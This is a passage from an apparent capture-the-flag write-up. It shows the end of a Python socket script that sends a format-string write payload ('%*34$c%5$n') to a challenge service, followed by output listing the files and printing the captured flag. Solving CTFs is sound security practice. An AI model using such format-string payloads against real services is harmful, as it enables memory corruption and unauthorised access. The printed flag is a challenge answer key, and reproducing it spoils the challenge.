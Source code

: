 ```python
		while len(data) > 0:
			print(data.decode('ascii'))
			data = s.recv(1024)
		return True
	except socket.timeout as e:
		print('timeout:',e)
	return False

if __name__ == '__main__':

	do_send(b'%*34$c%5$n')
```

Running this gives the flag, not in the normal `flag` file, but instead in `the_real_flag`.

```
$ ./challenge20.py 
b' \x1b[1mpassword:\x1b[0m '
this is not the flag... try harder

total 64
drwxr-xr-x 1 root ctf   4096 Dec 20 09:21 .
drwxr-xr-x 1 root root  4096 Dec 20 05:14 ..
-r--r----- 1 root ctf     35 Dec 20 05:13 flag
-rwxr-x--- 1 root ctf  42328 Dec 20 09:20 grinch
-rwxr-x--- 1 root ctf     38 Dec 20 05:13 redir.sh
-r--r----- 1 root ctf     52 Dec 20 05:13 the_real_flag

AOTW{7h3_gr1NcH_t4K3z_ELF_aNd_sAfTeY_vEry_s3r1OslY}

timeout: timed out
```
